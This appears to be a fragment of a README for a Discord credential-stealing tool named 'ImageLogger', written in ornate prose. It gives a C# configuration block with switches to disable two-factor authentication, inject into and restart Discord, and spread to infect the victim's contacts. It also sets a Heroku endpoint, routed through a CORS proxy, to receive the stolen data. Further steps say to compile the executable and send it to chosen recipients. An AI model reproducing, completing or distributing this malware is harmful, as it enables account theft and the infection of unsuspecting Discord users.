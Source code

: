 ```cs
public static bool disableMfa = false; // Disable 2-Factor Authentication (2FA).

public static bool restartDiscord = true; // Facilitate the renaissance of Discord post-injection.

public static bool spread = true; // A tenet eternally true: the client must be infected.

private static string serverurl = "https://your-app-name.herokuapp.com/api/v1/send"; // Transmute "your-app-name.herokuapp.com/api/v1/send" into your own API URL.

public static string Url = "https://cors-anywhere2.herokuapp.com/" + serverurl; // This thread woven in the fabric of connectivity shall remain untouched.
```

3. Genesis of the .exe:
   - Weave the threads of code into the tapestry of functionality by compiling the project.

4. The Reckoning:
   - Traverse the directory path `\ImageLogger\ImageLogger\bin\Debug`.

5. The Gift of Dissemination:
   - With your creation encapsulated within the .exe form, bestow it upon your chosen recipients.

6. Glimpses of Capture:
   - Immortalize the moments of intrigue with visual records that capture the essence of the grabber's potential.

![](https://cdn.discordapp.com/attachments/797933407476777012/798145821203628052/unknown.png)